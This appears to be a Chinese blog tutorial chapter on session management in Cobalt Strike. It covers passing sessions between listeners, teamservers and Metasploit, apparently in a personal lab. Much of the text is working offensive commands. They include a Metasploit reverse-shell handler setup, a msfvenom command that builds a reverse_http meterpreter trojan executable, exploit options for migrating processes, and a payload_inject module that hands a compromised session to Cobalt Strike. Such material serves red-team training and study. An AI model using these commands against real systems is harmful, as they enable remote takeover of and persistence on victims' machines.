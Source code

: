 ﻿---
title: 5.Session_Manage
categories:
- Network_Security
- Intranet_Infiltration
- Cobalt_Strike
tags:
- Network_Security
date: 2024-01-14 11:44:53
---

# 第五章 会话管理

## 1. 不同 listener 之间的会话转移

1. 右键会话(spawn) --> 选择其他的 listener



## 2. 不同的 teamserver 之间的会话转移

1. 在新的 teamserver 中创建监听器 --> 右键会话转移(spawn) --> 选择刚刚新建的监听器



## 3. cobalt strike 派生 metasploit 会话

1. 首先在 metasploit 中创建监听（这里使用 reverse_tcp ）：

    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.43.106
    set lport 4444
    exploit -j
    ```

    结果：

    ![image-20220124112805508](image-20220124112805508.png)

     补充：

    jobs 命令可以查看后台的任务项。例如：

    ![image-20220124112902547](image-20220124112902547.png)

    使用 `kill <id>` 可以关闭某个任务

2. 在 cobalt strike 中新建监听器，这里根据上文的监听类型，选择对应的监听器种类：

    ![image-20220124113114337](image-20220124113114337.png)

    这里要注意的是：

    1. Payload 要选择之间 msf 中设置的，要选 foreign
    2. 主机和端口要和刚刚在 msf 中设置的一致。

3. 在 cobalt strike 中选择要转移的会话，选择刚刚建立的监听器即可。

    <img src="会话管理.assets/image-20220124113505915.png" alt="image-20220124113505915" style="zoom:80%;" />

    

## 4. metasploit 生成木马和 cobalt strike 会话

1. 首先利用 metasploit 生成一个反弹 http shell：

    `msfvenom -p windows/meterpreter/reverse_http lhost=192.168.43.106 lport=55555 -f exe > shell_tcp_43.106_55555.exe`

2. 在 cobalt strike 中设置监听器。这里的监听器为 windows/beacon_http/reverse_http

    ![image-20220124153005256](image-20220124153005256.png)

3. 靶机执行 shell，获得会话。

    其实这里的 cobalt strike 相当于 msf 的 handler。



## 5. metasploit 利用 exp 将会话转给 cobalt strike

1. 正常使用攻击 exp。
2. 设置 payload 的时候选择与 cobal strike 中设置的监听器相同类型的 payload。例如都是 reverse_http
3. 设置 Lhost 和 Lport 都是 cobalt strike 监听器的主机地址和端口。
4. `set disablepayloadhandler True` 。将 DisablePayLoadHandler 设置为 true。这告诉 metasploit 框架，它不需要在metasploit 框架内创建处理程序来服务有效负载连接。
5. `set PrependMigrate true`。这个选项告诉 metasploit 框架修改其 stager，以便在利用之后立即迁移到另一个进程。此选项对于客户端攻击非常重要。它允许您的会话在被利用的应用程序崩溃或关闭时存活。
6. 个人实验时利用的是 ms16\_032 exp。在 msf 设置 payload 的时候，虽然设置其为 reverse_http，但最终 show options 的时候还是 reverse_tcp。最终在 cobalt strike 中依旧无法获得会话。



## 6. metasploit session 派生 cobalt strike 会话

1. 首先利用 exp 产生 session。

2. 将获得的 session 通过 `background` 置于后台。

3. 利用以下模块：

    ```bash
    use exploit/windows/local/payload_inject
    # 这里设置具体的 session
    set session x
    # 这里设置的 payload 要和 cobalt strike 中设置的监听器的配置一致
    set payload windows/meterpreter/reverse_http
    # cobalt strike 监听器的主机地址
    set lhost 192.168.0.106
    # cobalt strike 监听器的端口地址
    set lport 1234
    set DisablePayloadHandler true
    exploit -j
    ```

4. 结果如下：

    ![image-20220125205227167](image-20220125205227167.png)

    
